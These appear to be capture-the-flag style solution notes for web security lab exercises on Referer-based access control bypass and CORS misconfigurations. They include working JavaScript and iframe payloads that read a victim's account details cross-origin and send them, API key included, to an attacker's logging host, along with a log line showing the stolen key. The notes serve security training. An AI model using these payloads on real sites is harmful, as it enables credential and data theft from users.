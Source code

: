 #### Referer-based access control
```
Login as administrator/admin
Go to /admin
Upgrade a user and intercept the request in Burp

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Referer: https://ace91fd81fbaa096804b8c630061001c.web-security-academy.net/admin

Login as wiener/peter and send the request.
```

#### CORS vulnerability with basic origin reflection

1. Login as wiener/peter
2. Go to /my-account
3. /my-account?id=admin is blocked

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cookie: session=RP4LxEeQbjJvfMad0sA9P4ECWmB3r99S
Access-Control-Allow-Origin: https://acf41fe01f16167180030e2a00fd001d.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Go to exploit server:
```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acf41fe01f16167180030e2a00fd001d.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();function reqListener() {
	location='//ac401f581f15167f809a0e1701320092.web-security-academy.net/log?key='+this.responseText;
};
```

Submit exploit to victim and go to /log:
```
192.168.1.12    2020-02-05 19:14:00 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22hvhwIMzFHlIEZpEPGhdJ9EAzV06nOMmw%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/661765"
```

#### CORS vulnerability with trusted null origin

Send this to the victim.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acbd1fbe1fd78cf3807331b900be00fc.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://ac6c1fc91feb8cf080ee316001f5002a.web-security-academy.net/log?key='+this.responseText;
};
</script>"></iframe> 
```
